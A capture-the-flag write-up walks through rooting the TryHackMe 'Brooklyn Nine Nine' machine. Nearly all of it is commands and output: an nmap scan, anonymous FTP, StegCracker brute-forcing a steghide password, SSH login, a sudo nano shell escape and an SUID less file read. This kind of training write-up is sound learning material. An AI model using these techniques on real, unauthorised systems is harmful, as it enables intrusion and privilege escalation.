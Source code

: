 # [TryHackMe Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine)

Just another __*fantastic*__ day for hacking! 

We start by deploying the machine. We've got the IP address of the virtual machine: `10.10.247.201`. Please change it where necessary in this write-up to your own virtual machine IP address!
```
$ export IP=10.10.247.201
```
This command creates an environment variable called $IP with the value given, so we can access it thru bash anywhere needed by calling $IP.
Please also note that, every line that starts with a $ means a terminal command, so when copy&paste'ing commands remember to remove the initial $.

Every time we want to know about our machine, we do the process of "enumeration", which consists in listing which ports, services and possible vulnerabilities may be exploitable in the machine we are analysing. 

Let's do the first one: port and service enumeration!
```
$ nmap -sV -sC -oN nmap-initial $IP

Starting Nmap 7.60 ( https://nmap.org ) at 2020-07-26 11:12 -03
Nmap scan report for 10.10.247.201
Host is up (0.23s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.11.107
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.40 seconds
```
We note that there are three services open: A FTP server on port 21, a SSH server on port 22, and a Web server on port 80. 
We also note that the FTP server accepts anonymous login... hmm... and there is a file called `note_to_jake.txt` there. Let's log in and download it to take a look...

```
$ ftp $IP
Connected to 10.10.247.201.
220 (vsFTPd 3.0.3)
Name (10.10.247.201:landau): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (62.2114 kB/s)
ftp> exit
221 Goodbye.
```

Now reading the note_to_jake.txt file:
```
$ cat note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

So, with this simple file, we have some good info: There should be at least three users: amy, jake and holt. But no other info on the password.
We have another source of information we haven't checked yet: There is a web server on port 80.
We can open it on the browser, and check the source code:
```
(...)

<p>This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.</p>
<!-- Have you ever heard of steganography? -->
</body>

(...)
```
Steganography! Let's download the file and extract it!
```
$ wget $IP/brooklyn99.jpg
```
Alrighty! Now we just try to extract the info inside the file with steghide:
```
$ steghide extract -sf brooklyn99.jpg
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```
Hmm... password protected. Let's break it with [StegCracker](https://github.com/Paradoxis/StegCracker)
```
stegcracker brooklyn99.jpg 
StegCracker 2.0.8 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: <REDACTED>
Tried 20### passwords
Your file has been written to: brooklyn99.jpg.out
```
Ok, information extracted from the file. What is it?

```
$ cat brooklyn99.jpg.out 
Holts Password:
<REDACTED>

Enjoy!!

```
This password must be the SSH credential for the `holt` user! Let's try and log in:
```
$ ssh holt@$IP
```
and fill in the password we've found. We're in!
Listing the files in the home folder with the `ls -la` command, we see that there is a `user.txt` file. Must be the user flag!
```
cat user.txt
<REDACTED>
```
Now we need to get the root flag.
There is a nano.save file... hmm... something about nano?
```
$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano

```
So it can run nano with sudo without password! 
Let's check [GTFOBins](https://gtfobins.github.io/) if there is some sudo breakout with nano:
```
It runs in privileged context and may be used to access the file system, escalate or maintain access with elevated privileges if enabled on sudo.

> sudo nano
> ^R^X
> reset; sh 1>&0 2>&0
```
NICE! let's run then `sudo nano nano.save`, press CTRL+R CTRL+X and enter the command above `reset; sh 1>&0 2>&0`

```
# id
uid=0(root) gid=0(root) groups=0(root)
```
WE. ARE. ROOT. 

SWEET!

```
cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: <REDACTED>

Enjoy!!
```

## BONUS:
There is a second way to get to the root.txt file. If we search for SUID files...
```
$ find / -perm -u=s -type f 2>/dev/null
(...)
/bin/mount
/bin/su
/bin/ping
/bin/fusermount
/bin/less
/bin/umount
```
less? This one is not an usual SUID file...
```
$ ls -ls $(which less)
0 lrwxrwxrwx 1 root root 9 Feb  3 18:22 /usr/bin/less -> /bin/less
```
SUID owned by root... so we can use it to read the /root/root.txt file!
```
$ less /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: <REDACTED>

Enjoy!!
```
Thank you [FSociety2006](https://tryhackme.com/p/Fsociety2006) for creating this fantastic machine! It touches a lot of concepts for beginners and give that feeling for PrivEsc we all love to have. It was very fun!

Also thanks for the [TryHackMe](https://tryhackme.com/) team for hosting the machine and the challenge page. You guys rock!
